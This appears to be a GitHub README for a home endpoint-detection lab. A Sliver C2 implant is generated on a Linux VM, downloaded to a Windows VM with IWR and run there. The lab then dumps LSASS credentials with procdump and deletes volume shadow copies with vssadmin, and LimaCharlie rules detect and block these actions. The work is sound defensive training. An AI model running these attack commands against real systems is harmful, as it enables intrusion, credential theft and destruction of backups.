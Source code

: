<h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attacks are monitored, detected and blocked using the Endpoint Detection and Response agent called LimaCharlie.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>
- <b>Python</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack & Monitor</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)

Various attacks can be done through the established session. However, we will proceed to monitoring and detecting this attack in
the Lima Charlie tool.

9.  We can now look for our attack in the Lima Charlie web application. Please note that Lima Charlie was configured after
    the establishment of the virtual machines. The detailed steps are in the link above.

    --> Sensor List
        --> Hostname(windev2305eval.localdomain)

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a7849e22-66e5-4caa-a8e5-988e51a4e759)


    From here we navigate to -->processes and we find our malware "MASSIVE_DEPRESSIVE.exe"
    Note that there is no green check mark indicating a signature for the malware. A lack of signature can indicate a malicious
    process.


  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/985161fa-1ac7-46d6-8db9-a11361fb13d6)


  Navigating just below Processes to --> Network we can see the malware and its source IP and other information.


  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/fd77e80b-4e11-4adf-a06a-296534ed5bfc)


  Below the Network we may go into -->File System and search for the malware's file path.


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9631c089-114f-4ba9-9d1a-71fe5bd3a79a)


In the same left menu, we can click on Timeline and monitor near real-time telemetry of the host system.  We can find the
event and its processes and the time of its processes.


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/dfffca45-e5a7-44be-ae0a-436923b90d1d)


_________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Detection</b><br/>

Now we will attack the Windows VM and detect the attack with a detection rule.

1.  First we reestablish the Sliver malware's attack session with the Windows VM
    and look for the privileges we have on the Windows machine through the C2 agent.
    ---> use[session id]
         -->getprivs
      And we check for "SeDebugPrivilege" which allows for privilege escalation in attacks.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e34dfa4d-7b5b-4512-95b8-6826f36f8f8a)

2.  We will use an attack that threat actors use for stealing credentials from a system.
 Using the command -->procdump -n lsass.exe -s lsass.dmp
We can find the attack in the Timeline section in Lima Charlie by filtering Sensitive Process Access

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6a40730c-c45f-4ec5-9274-48ca26c92740)

3. Now we will write a detection rule through Lima Charlie.
   Clicking on the event opens an event panel with information.
   To enter a detection rule, we click on the box shown below
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5a58c133-5493-4b7e-84c5-a5bb4d81763e)

   In the "Detect" box we remove the previous detection contents from the box and entering our rule
   --> event: SENSITIVE_PROCESS_ACCESS
       op: ends with
       path: event/*/TARGET/FILE_PATH
       value: lsass.exe

       The above specifies detecting an event of SENSITIVE PROCESS ACCESS with the process having lsass.exe.


        In the "Respond" box we add --> - action: report
                                         name: LSASS access
   
 This will prompt Lima Charlie to provide a detection report upon detection. Click Save and name the rule.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6262f2c7-3cfa-47d2-9448-1c1ca642c8b5)

4.  We can now test our detection rule by returning to the Sliver server console, back into the C2 session, and rerunning the same
    procdump command as before.

    In Lima Charlie, we go back to sensors then Detections in the left side menu.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9686c222-967d-4536-a6bd-fa9be8c3c942)

    As seen above, the attack was detected!
____________________________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Block</b><br/>
  Deletion of Volume Shadow Copies is a popular attack connected with ransomware.  In this section, we
 will perform the above mentioned attack and block it upon detection using Lima Charlie.

1.  First we restart our Sliver C2 session with the victim machine following the steps in the above sections.

2.  Run command -->shell
    Answer yes to question “This action is bad OPSEC, are you an adult?”

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/329ab9f8-9c82-4789-9fe1-062aa669021a)

3.  Run command -->vssadmin delete shadows /all

4.  Run command -->whoami

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6915f891-700b-4902-95d0-964faf27c7aa)

5.  Now we look into Lima Charlie Detections as before. Lima Charlie detects the attack through Sigma Rules.

   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/c24fc0c8-453e-40e3-8308-6dbc171a8ce6)

6.  We can view the event in the Timeline and view the pane on the right to access the rule options.

   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/2e890a52-217b-404d-8efb-e57f251d9f04)

7.  Writing D&R rules:
    In Respond Box Enter--> - action: report
                               name: vss_deletion_kill_it
                             - action: task
                               command:
                             - deny_tree
                             - <<routing/parent>>
    Name and Save the rule.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/c4e4e8ae-c9a7-4f86-a021-92ff14158510)


    Note that "action: report" generates the detection report and the "action: task" will deny the parent process or kill the execution
    of the attack.

8.  Test the block rule by going back to the Linux VM Sliver-server shell and repeating the command-->vssadmin delete shadows /all

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e201afbd-13b5-4e3f-86c4-5b7ae82825bb)

    Then we run our whoami command.
 
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e4c0e9d0-5f57-44b9-9385-6709dfae48b2)

   We can see that the shell was automatically terminated. The block rule was successful!



    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
